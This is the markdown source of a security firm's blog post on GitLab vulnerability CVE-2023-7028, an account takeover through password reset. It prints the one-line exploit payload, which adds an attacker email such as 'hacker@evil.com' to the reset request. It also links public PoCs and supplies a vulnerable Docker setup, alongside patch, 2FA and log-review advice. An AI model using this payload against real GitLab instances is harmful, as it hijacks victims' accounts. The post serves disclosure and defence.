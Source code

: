 ```yaml
---
title: "How to compromise Gitlab accounts with CVE-2023-7028 vulnerability"
description: "This article details how GitLab is vulnerable to the CVE-2023-7028 flaw and why it should not be publicly exposed."
date: 2024-01-19T17:32:30+01:00
draft: false
images: [/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png]
featuredImage: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
featuredImagePreview: "/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/logo.png"
tags: ["Pentest", "Exploit", "Gitlab"]
---
```


# 😮 Publicly exposing GitLab in 2024: too risky?

<br>
<br>

Is exposing one's own GitLab a good security practice? Well, you will see that **it is not**.

2024 starts strongly, giving good reasons **not to expose this service on the Internet** (but rather to host it behind a VPN).

## A tense start to the year

On January 11, 2024, GitLab, the renowned community platform, released an important announcement concerning new versions 16.7.2, 16.6.4, and 16.5.6 for GitLab Community Edition (CE) and Enterprise Edition (EE).

Two vulnerabilities are explained:

1. The **CVE-2023-7028** vulnerability :
   - CVSS score of 10/10 😮
   - It allows account takeover via password reset without user interaction.

1. The **CVE-2023-5356** vulnerability : 
   - CVSS score of 9.6/10 😟
   - It allows a user to abuse Slack/Mattermost integrations to execute slash commands as another user.
  
## In brief

The most problematic vulnerability is the first one: **CVE-2023-7028**.

Far from harmless, it is very problematic:

- It allows resetting the password of any user.
- The vulnerability is exploitable without an account.
- The victim's email must be known.
- The payload consists of a single line: `user[email][]=my.target@example.com&user[email][]=hacker@evil.com`

The second vulnerability is just as serious but less easily exploitable.

## Exploitation

To exploit this vulnerability, the PoC is really very simple:


```sh
user[email][]=valid@email.com&user[email][]=attacker@email.com
```

- `valid@email.com` is the victim's address
- `attacker@email.com` is the attacker's address

GitLab creates confusion, allowing an attacker to overwrite the victim's email with their own 😮!

More specifically, a change was made in version 16.1.0 to allow users to reset their passwords using a secondary email address. The vulnerability results from a bug in the email verification process.

👉 More details on GitLab's blog: https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions

## Recommended actions

GitLab recommends the following actions:

1️⃣ **Immediate Update**: It is strongly advised to update GitLab to the latest patched version. For users who have not yet updated, GitLab recommends moving directly to versions 16.7.3, 16.6.5, 16.5.7 or later.

2️⃣ **Enable Two-Factor Authentication (2FA)**: GitLab advises activating 2FA for all accounts. This security measure prevents the exploitation of this vulnerability.

3️⃣ **Integrity Verification**: Self-managed clients are advised to examine their logs to detect any exploitation attempts of these vulnerabilities.

Example:

- Check the `gitlab-rails/production_json.log` file to ensure that no request pointing to the /users/password route contains **multiple email addresses**.
- Check the `gitlab-rails/audit_json.log` file to ensure that the meta.caller_id field of PasswordsController#create and target_details do not contain **multiple email addresses**.
  
## Automation

Many PoCs are available online to automate the exploitation of this vulnerability:

- Made by a talented French developer: https://github.com/Vozec/CVE-2023-7028
- https://github.com/V1lu0/CVE-2023-7028
  
## Vulnerable Docker

For the curious, below is a vulnerable docker compose to practice this vulnerability:

```yaml
version: '3.6'
services:
  gitlab:
    image: 'gitlab/gitlab-ce:16.1.4-ce.0'
    restart: always
    hostname: 'gitlab.domain.com'
    environment:
      GITLAB_OMNIBUS_CONFIG: |
        external_url 'http://gitlab.domain.com'
        gitlab_rails['smtp_enable'] = true
        gitlab_rails['smtp_address'] = "smtp_address"
        gitlab_rails['smtp_port'] = 587
        gitlab_rails['smtp_user_name'] = "smtp_user_name"
        gitlab_rails['smtp_password'] = "smtp_password"
        gitlab_rails['smtp_domain'] = "domain.com"
        gitlab_rails['smtp_authentication'] = "login"
        gitlab_rails['smtp_enable_starttls_auto'] = true
    ports:
      - '80:80'
      - '443:443'
      - '22:22'
    volumes:
      - './gitlab/config:/etc/gitlab'
      - './gitlab/logs:/var/log/gitlab'
      - './gitlab/data:/var/opt/gitlab'
```

Available on Trackflaw's GitHub: https://github.com/Trackflaw/CVE-2023-7028-Docker

## Demonstration

A small demonstration below to present the exploitation of the vulnerability:

<video src="/images/compromettre-comptes-Gitlab-avec-CVE-2023-7028/exploit.mp4" controls autoplay loop title="Exploiting GitLab with CVE-2023-7028 vulnerability" style="width:100%"></video>

🙏 Patch quickly. Trackflaw is here to help you with this task. Contact us at https://trackflaw.com or by email contact (@) trackflaw.com

## Sources

- https://about.gitlab.com/releases/2024/01/11/critical-security-release-gitlab-16-7-2-released/#account-takeover-via-password-reset-without-user-interactions